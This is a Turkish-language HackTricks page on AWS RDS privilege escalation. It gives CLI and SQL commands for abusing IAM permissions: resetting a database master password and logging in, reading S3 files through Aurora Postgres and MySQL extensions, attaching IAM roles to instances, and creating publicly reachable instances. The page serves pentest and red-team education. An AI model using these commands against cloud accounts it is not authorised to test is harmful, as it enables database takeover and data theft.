 # AWS - RDS Yetkilendirme Yükseltme

<details>

<summary><strong>htARTE (HackTricks AWS Kırmızı Takım Uzmanı)</strong> ile sıfırdan kahraman olmak için AWS hackleme öğrenin<strong>!</strong></summary>

HackTricks'i desteklemenin diğer yolları:

* Şirketinizi HackTricks'te **reklamını görmek** veya HackTricks'i **PDF olarak indirmek** için [**ABONELİK PLANLARI**](https://github.com/sponsors/carlospolop)'na göz atın!
* [**Resmi PEASS & HackTricks ürünlerini**](https://peass.creator-spring.com) edinin
* Özel [**NFT'lerden**](https://opensea.io/collection/the-peass-family) oluşan koleksiyonumuz [**The PEASS Family**](https://opensea.io/collection/the-peass-family)'yi keşfedin
* 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) **katılın** veya bizi **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)'da **takip edin**.
* Hacking hilelerinizi **HackTricks** ve **HackTricks Cloud** github depolarına PR göndererek paylaşın.

</details>

## RDS - İlişkisel Veritabanı Servisi

RDS hakkında daha fazla bilgi için:

{% content-ref url="../aws-hizmetleri/aws-veritabanlari/aws-iliskisel-veritabani-rds-enum.md" %}
[aws-iliskisel-veritabani-rds-enum.md](../aws-hizmetleri/aws-veritabanlari/aws-iliskisel-veritabani-rds-enum.md)
{% endcontent-ref %}

### `rds:ModifyDBInstance`

Bu izinle bir saldırgan, **ana kullanıcının şifresini değiştirebilir** ve veritabanına giriş yapabilir:
```bash
# Get the DB username, db name and address
aws rds describe-db-instances

# Modify the password and wait a couple of minutes
aws rds modify-db-instance \
--db-instance-identifier <db-id> \
--master-user-password 'Llaody2f6.123' \
--apply-immediately

# In case of postgres
psql postgresql://<username>:<pass>@<rds-dns>:5432/<db-name>
```
{% hint style="warning" %}
Veritabanına **bağlantı kurabilmeniz gerekecek** (genellikle yalnızca iç ağlardan erişilebilirler).
{% endhint %}

**Potansiyel Etki:** Veritabanları içinde hassas bilgiler bulunabilir.

### rds-db:connect

[**Belgelere**](https://docs.aws.amazon.com/AmazonRDS/latest/UserGuide/UsingWithRDS.IAMDBAuth.IAMPolicy.html) göre, bu izne sahip bir kullanıcı DB örneğine bağlanabilir.

### RDS Rolü IAM izinlerini Kötüye Kullanma

#### Postgresql (Aurora)

{% hint style="success" %}
**`SELECT datname FROM pg_database;`** komutunu çalıştırarak **`rdsadmin`** adında bir veritabanı bulursanız, içinde bir **AWS postgresql veritabanı** olduğunu bilirsiniz.
{% endhint %}

İlk olarak, bu veritabanının başka bir AWS hizmetine erişmek için kullanılıp kullanılmadığını kontrol edebilirsiniz. Bunun için yüklü uzantılara bakabilirsiniz:
```sql
SELECT * FROM pg_extension;
```
Eğer **`aws_s3`** gibi bir şey bulursanız, bu veritabanının **S3 üzerinde bir tür erişimi olduğunu** varsayabilirsiniz (**`aws_ml`** ve **`aws_lambda`** gibi diğer uzantılar da vardır).

Ayrıca, **`aws rds describe-db-clusters`** komutunu çalıştırma izniniz varsa, **kümenin bağlı bir IAM Rolü olup olmadığını** **`AssociatedRoles`** alanında görebilirsiniz. Eğer varsa, veritabanının **diğer AWS hizmetlerine erişim için hazırlandığını** varsayabilirsiniz. Rolün **adı** (veya rolün **izinleri** elde edilebilirse) temel alarak, veritabanının ne tür ek erişime sahip olabileceğini **tahmin edebilirsiniz**.

Şimdi, bir kovada bir dosyayı **okumak için tam yolunu bilmelisiniz**. Aşağıdaki komutla okuyabilirsiniz:
```sql
// Create table
CREATE TABLE ttemp (col TEXT);

// Create s3 uri
SELECT aws_commons.create_s3_uri(
'test1234567890678', // Name of the bucket
'data.csv',          // Name of the file
'eu-west-1'          //region of the bucket
) AS s3_uri \gset

// Load file contents in table
SELECT aws_s3.table_import_from_s3('ttemp', '', '(format text)',:'s3_uri');

// Get info
SELECT * from ttemp;

// Delete table
DROP TABLE ttemp;
```
Eğer **ham AWS kimlik bilgilerine** sahipseniz, bunları kullanarak aşağıdaki komutu kullanarak S3 verilerine erişebilirsiniz:
```sql
SELECT aws_s3.table_import_from_s3(
't', '', '(format csv)',
:'s3_uri',
aws_commons.create_aws_credentials('sample_access_key', 'sample_secret_key', '')
);
```
{% hint style="info" %}
Postgresql, S3' e erişebilmek için herhangi bir parametre grubu değişkenini değiştirmeye ihtiyaç duymaz.
{% endhint %}

#### Mysql (Aurora)

{% hint style="success" %}
Bir mysql içinde, **`SELECT User, Host FROM mysql.user;`** sorgusunu çalıştırırsanız ve **`rdsadmin`** adında bir kullanıcı varsa, bir **AWS RDS mysql db** içinde olduğunuzu varsayabilirsiniz.
{% endhint %}

Mysql içinde **`show variables;`** komutunu çalıştırın ve **`aws_default_s3_role`**, **`aurora_load_from_s3_role`**, **`aurora_select_into_s3_role`** gibi değişkenlerin değerleri varsa, veritabanının S3 verilerine erişmek için hazırlandığını varsayabilirsiniz.

Ayrıca, **`aws rds describe-db-clusters`** komutunu çalıştırma izniniz varsa, kümenin herhangi bir **ilişkili rolü** olup olmadığını kontrol edebilirsiniz, bu genellikle AWS hizmetlerine erişim anlamına gelir).

Şimdi, bir kovada **bir dosya okumak** için tam yolunu bilmeniz gerekmektedir. Aşağıdaki komutla okuyabilirsiniz:
```sql
CREATE TABLE ttemp (col TEXT);
LOAD DATA FROM S3 's3://mybucket/data.txt' INTO TABLE ttemp(col);
SELECT * FROM ttemp;
DROP TABLE ttemp;
```
### `rds:AddRoleToDBCluster`, `iam:PassRole`

`rds:AddRoleToDBCluster` ve `iam:PassRole` izinlerine sahip bir saldırgan, **mevcut bir RDS örneğine belirtilen bir rol ekleyebilir**. Bu, saldırganın **hassas verilere erişmesine** veya örnekteki verileri değiştirmesine olanak tanıyabilir.
```bash
aws add-role-to-db-cluster --db-cluster-identifier <value> --role-arn <value>
```
**Potansiyel Etki**: RDS örneğindeki hassas verilere erişim veya yetkisiz veri değişiklikleri.\
Unutmayın ki bazı veritabanları ek yapılandırmalar gerektirir, örneğin Mysql, parametre gruplarında rol ARN'sini belirtmek gerekmektedir.

### `rds:CreateDBInstance`

Sadece bu izinle bir saldırgan, zaten var olan ve bir IAM rolüne sahip olan bir küme içinde **yeni bir örnek oluşturabilir**. Ana kullanıcı şifresini değiştiremeyecek, ancak yeni veritabanı örneğini internete açabilir:
```bash
aws --region eu-west-1 --profile none-priv rds create-db-instance \
--db-instance-identifier mydbinstance2 \
--db-instance-class db.t3.medium \
--engine aurora-postgresql \
--db-cluster-identifier database-1 \
--db-security-groups "string" \
--publicly-accessible
```
### `rds:CreateDBInstance`, `iam:PassRole`

{% hint style="info" %}
TODO: Test
{% endhint %}

`rds:CreateDBInstance` ve `iam:PassRole` izinlerine sahip bir saldırgan, **belirtilen bir rolle ilişkilendirilmiş yeni bir RDS örneği oluşturabilir**. Saldırgan daha sonra potansiyel olarak örnekteki hassas verilere **erişebilir veya verileri değiştirebilir**.

{% hint style="warning" %}
Rol/önek ilişkilendirme için bazı gereksinimler ([**buradan**](https://docs.aws.amazon.com/cli/latest/reference/rds/create-db-instance.html)):

* Profil hesabınızda mevcut olmalıdır.
* Profilin, Amazon EC2'nin varsayılan olarak yetkilendirilmiş olduğu bir IAM rolü olmalıdır.
* Örnek profil adı ve ilişkili IAM rol adı `AWSRDSCustom` önekiyle başlamalıdır.
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds create-db-instance --db-instance-identifier malicious-instance --db-instance-class db.t2.micro --engine mysql --allocated-storage 20 --master-username admin --master-user-password mypassword --db-name mydatabase --vapc-security-group-ids sg-12345678 --db-subnet-group-name mydbsubnetgroup --enable-iam-database-authentication --custom-iam-instance-profile arn:aws:iam::123456789012:role/MyRDSEnabledRole
```
{% endcode %}

**Potansiyel Etki**: RDS örneğindeki hassas verilere erişim veya yetkisiz veri değişiklikleri.

### `rds:AddRoleToDBInstance`, `iam:PassRole`

`rds:AddRoleToDBInstance` ve `iam:PassRole` izinlerine sahip bir saldırgan, **belirtilen bir rolü mevcut bir RDS örneğine ekleyebilir**. Bu, saldırganın örnekteki **hassas verilere erişmesine** veya verileri değiştirmesine olanak tanıyabilir.

{% hint style="warning" %}
Bu işlem, DB örneğinin bir küme dışında olması gerekmektedir.
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds add-role-to-db-instance --db-instance-identifier target-instance --role-arn arn:aws:iam::123456789012:role/MyRDSEnabledRole --feature-name <feat-name>
```
{% endcode %}

**Potansiyel Etki**: RDS örneğindeki hassas verilere erişim veya yetkisiz veri değişiklikleri.

<details>

<summary><strong>AWS hackleme konusunda sıfırdan kahraman olmak için</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Kırmızı Takım Uzmanı)</strong></a><strong>'ı öğrenin!</strong></summary>

HackTricks'i desteklemenin diğer yolları:

* Şirketinizi HackTricks'te **reklamınızı görmek** veya **HackTricks'i PDF olarak indirmek** için [**ABONELİK PLANLARI**](https://github.com/sponsors/carlospolop)'na göz atın!
* [**Resmi PEASS & HackTricks ürünlerini**](https://peass.creator-spring.com) edinin
* Özel [**NFT'lerden**](https://opensea.io/collection/the-peass-family) oluşan koleksiyonumuz [**The PEASS Family**](https://opensea.io/collection/the-peass-family)'i keşfedin
* 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) **katılın** veya bizi **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)'ı **takip edin**.
* Hacking hilelerinizi **HackTricks** ve **HackTricks Cloud** github depolarına PR göndererek paylaşın.

</details>
